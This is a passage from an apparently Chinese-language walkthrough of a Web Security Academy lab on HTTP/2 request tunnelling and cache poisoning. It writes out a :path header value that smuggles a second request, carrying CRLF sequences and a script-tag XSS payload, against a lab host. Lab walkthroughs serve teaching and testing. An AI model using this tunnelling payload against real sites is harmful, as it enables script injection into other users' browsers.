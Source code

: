 随后我们需要找到一个基于 HTML 的 XSS 有效负载，而不编码或转义它可控点，发送对 GET /resources 的响应并观察到触发了到/resources/的重定向

[![](assets/1705287960-fddb87db7f0295a54b164c5e0210ec2d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111105213-6c62b3ec-b02c-1.png)  
随后尝试通过:path 伪头隧道传输该请求，在查询字符串中包括 XSS 有效负载

```plain
#Name
:path

#Vaule
/?cachebuster=3 HTTP/1.1\r\n
Host: YOUR-LAB-ID.web-security-academy.net\r\n
\r\n
GET /resources?<script>alert(1)</script> HTTP/1.1\r\n
Foo: bar
```

[![](assets/1705287960-3eff6c40f95b3b46e7ec3fdedeb89339.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111105237-7a96514e-b02c-1.png)  
从上面可以注意到请求超时了，这是因为主响应中的 Content-Length 头比隧道请求的嵌套响应长，随后我们检查对普通 GET /请求的响应中的内容长度并记下其值

[![](assets/1705287960-9193d073d5725e0955f2286570fa0a2d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111105250-8209aa5c-b02c-1.png)
